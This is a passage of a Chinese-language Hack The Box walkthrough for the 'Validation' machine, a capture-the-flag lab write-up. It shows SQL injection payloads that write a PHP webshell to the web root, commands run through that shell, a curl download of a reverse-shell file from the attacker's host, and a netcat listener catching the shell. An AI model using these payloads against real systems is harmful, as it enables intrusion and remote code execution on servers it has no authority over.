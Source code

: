 ```
systemd-timesync:x:101:101:systemd 
Time Synchronization,,,:/run/systemd:/usr/sbin/nologin 
systemd-network:x:102:103:systemd 
Network Management,,,:/run/systemd:/usr/sbin/nologin 
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin 
mysql:x:104:105:MySQL Server,,,:/nonexistent:/bin/false 
messagebus:x:105:106::/nonexistent:/usr/sbin/nologin 
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin 
```

居然没有ssh可以直接登录的普通用户

写文件到靶机
```username=max&country=Andorra' union select "<?php phpinfo(); ?>" into outfile "/var/www/html/exp.php" -- -```

成功显示phpinfo信息。

写webshell到靶机（这里我做了好多好多尝试。。。。）
```username=max&country=Andorra' union select "<?php echo system(@$_GET['cmd']); ?>" into outfile "/var/www/html/exp.php"; -- -```


我们用```{IP}/exp.php?cmd=id```触发webshell

返回：
```
uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

在```{IP}/exp.php?cmd=cat /home/htb/user.txt```拿到user.txt

## 搞个正经的webshell

但是这样的shell实在是不方便，我们使用下面的payload拿到一个交互shell

> {IP}/exp.php?cmd=curl%20 http://10.10.14.15:8000/reverse-shell.php%20 -o ./shell.php

然后访问指定文件，获得反弹shell
> {IP}//shell.php

```
┌──(root💀kali)-[~/htb/Validation]
└─# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.116] 48802
Linux validation 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64 GNU/Linux
 16:55:32 up  3:52,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
